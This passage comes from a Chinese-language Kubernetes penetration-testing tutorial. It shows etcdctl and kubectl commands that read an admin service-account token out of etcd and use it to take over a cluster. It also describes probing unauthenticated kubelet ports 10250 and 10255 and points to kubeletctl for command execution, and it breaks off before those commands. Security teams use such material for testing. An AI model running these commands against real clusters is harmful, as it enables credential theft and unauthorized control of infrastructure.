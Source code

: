 **如果存在/registry/secrets/kube-system/admin-user-token-xxx，我们就可以读出token**

```
./etcdctl --insecure-transport=false --insecure-skip-tls-verify --endpoints=ip:port get /registry/secrets/kube-system/admin-user-token-xxx
```

**通过token就可以使用kubectl接管集群了**

```
kubectl --insecure-skip-tls-verify -s https://ip:6443 --token "$toekn" get nodes
```





## 3. Kubelet未授权访问



Kubelet 是与master中的kube-apiserver做交互的组件，接受master发送的消息，然后做对应处理。10250端口是kubelet与apiserver进行通信的主要端口，所以我们在做测试的时候主要探测10250端口，此外还有10255端口可以查看Pods信息等。

### 3.1 10255端口kubelet未授权访问

可以通过访问10255端口的`/pods`路径来确定是否存在该漏洞

<img src="../images/pics/容器云/10.jpg" style="zoom:100%;" /> 



### 3.2 10250端口未授访问导致命令执行

同样我们可以访问10250的`/pods`路径来判断是否存在该漏洞



我们可以使用kubeletctl工具：https://github.com/cyberark/kubeletctl，注意区分不是kubectl，kubectl用于与api server交互，kubeletctl用于与kubelet服务交互

**使用这个工具我们可以执行如下命令查看POD  NAMESPACE CONTAINERS**
